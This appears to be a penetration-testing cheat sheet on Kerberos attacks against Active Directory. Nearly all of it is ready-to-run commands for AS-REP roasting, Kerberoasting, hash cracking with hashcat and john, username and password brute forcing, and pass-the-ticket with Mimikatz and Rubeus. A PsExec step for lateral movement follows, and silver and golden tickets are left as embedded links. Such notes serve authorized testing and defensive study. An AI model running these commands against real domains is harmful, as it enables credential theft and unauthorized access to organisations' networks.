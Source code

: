 ```yaml
---
date: 
tags:
---
```


```table-of-contents
```

## Tools

**Rubeus:** [https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/blob/master/Rubeus.exe](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/blob/master/Rubeus.exe)

**Kerbrute:** [https://github.com/ropnop/kerbrute](https://github.com/ropnop/kerbrute)

**Impacket:** [https://github.com/SecureAuthCorp/impacket](https://github.com/SecureAuthCorp/impacket)

## ASREP-Roast

### Impacket

```python
# ASREP check on all domain Users (Requires valid domain credentials)
python2 GetNPUsers.py <Domain>/<User>:<Password> -request -dc-ip <IP> -format <John|Hashcat> | grep "$krb5asrep$"

# ASREP check on a list of domain user (Does not require domain credentials)
python2 GetNPUsers.py <Domain> -usersfile <UserList>  -dc-ip <IP> -format <John|Hashcat> | grep "$krb5asrep$"
```

### Rubeus

```python
# Extract from all domain accounts
.\Rubeus.exe asreproast
.\Rubeus.exe asreproast /format:hashcat /outfile:C:Hashes.txt
```

### Cracking

```bash
# Windows
hashcat64.exe -m 18200 c:Hashes.txt rockyou.txt

# Linux
john --wordlist rockyou.txt Hashes.txt --format=krb5tgs
hashcat -m 18200 -a 3 Hashes.txt rockyou
```

## Brute Force

### Kerbrute

**Download:** [https://github.com/ropnop/kerbrute](https://github.com/ropnop/kerbrute)

```python
./kerbrute userenum <UserList> --dc <IP> --domain <Domain>
```

### Rubeus

```python
# with a list of users
.\Rubeus.exe brute /users:<UserList> /passwords:<Wordlist> /domain:<Domain>

# Check all domain users again password list
.\Rubeus.exe brute /passwords:<Wordlist>
```

## Kerberoasting

### Impacket

```python
GetUserSPNs.py <Domain>/<User>:<Password> -dc-ip <IP> -request
```

### Rubeus

```python
# Kerberoast all users in Domain
.\Rubeus kerberoast

# All Users in OU
.\Rubeus.exe kerberoast /ou:OU=Service_Accounts,DC=Security,DC=local

# Specific users
.\Rubeus.exe kerberoast /user:File_SVC
```

## Pass-The-Ticket

### Mimikatz

```python
# Collect tickets
sekurlsa::tickets /export

# Inject ticket
kerberos::ptt <.kirbi file>

# spawn CMD with the injected ticket
misc::cmd
```

### Rubeus

```python
# Collect tickets
.\Rubeus.exe dump

# Inject ticket
.\Rubeus.exe ptt /ticket:<.kirbi file>
```

### PsExec

```python
# To be used after injecting ticket with either Rubeus or Mimikatz
.\PsExec.exe -accepteula \\<IP> cmd
```

## Silver Ticket

{% embed url="https://viperone.gitbook.io/pentest-everything/everything/everything-active-directory/silver-ticket" %}

## Golden Ticket

{% embed url="https://viperone.gitbook.io/pentest-everything/everything/everything-active-directory/golden-ticket" %}
